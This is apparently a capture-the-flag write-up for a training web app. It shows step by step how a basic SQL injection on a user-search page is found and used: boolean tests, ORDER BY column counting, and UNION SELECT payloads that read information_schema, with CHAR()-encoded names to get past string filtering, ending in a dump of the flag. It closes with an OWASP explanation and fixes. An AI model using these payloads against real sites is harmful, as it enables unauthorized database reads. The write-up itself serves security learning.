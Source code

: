 # SQL injection basic

Search for users by id is implemented on the page.
![1](./img/1.png)
Let's try to SQL injection.
We assume that the request has the following structure:
```
SELECT id, title, url FROM table_name
WHERE id = 1
```
If we enter 1+1, then user 2 will be returned to us.
So it is sensible to injection.

Try this input: 1 or 1 = 1
```
SELECT id, title, url FROM table_name
WHERE id = 1 or 1 = 1
```
![1or1=1](./img/1or1=1.png)

Wow, it works! We are interested in a user under 5 id.
![5](./img/5.png)

Let's try to find the number of fields that SQL sends using ORDER BY.
If you enter ```5 ORDER BY 3``` - we get an error, which means SQL sends 2 fields.

Enter ```4242 UNION SELECT 4242, database()```
And we get the name of the database - Member_images.

Let's try to get the table name
```
4242 UNION SELECT 1, TABLE_NAME
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115)
```

The name of table is list_images.

CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115) - translating Member_images into a sequence of characters, because lines in our case are not accepted.

Now we get the columns that are in the table
```
4242 UNION SELECT 1, COLUMN_NAME
FROM information_schema.COLUMNS
WHERE TABLE_SCHEMA = CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115) # Member_images
AND TABLE_NAME = CHAR(108,105,115,116,095,105,109,097,103,101,115) 
```

We get the following database fields: id, url, title, comment.

```
4242 UNION SELECT id, comment
FROM list_images
```
![final](./img/final.png)

```
borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
So, we just follow this instructions.

## Explanation
Attack type: [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection): SQL Injection
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application.
> A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete),
> execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present
> on the DBMS file system and in some cases issue commands to the operating system.
> SQL injection attacks are a type of injection attack,
> in which SQL commands are injected into data-plane input in order to affect theexecution of predefined SQL commands.

## How to fix it
> Escaping all user supplied input.
> Use of stored procedures.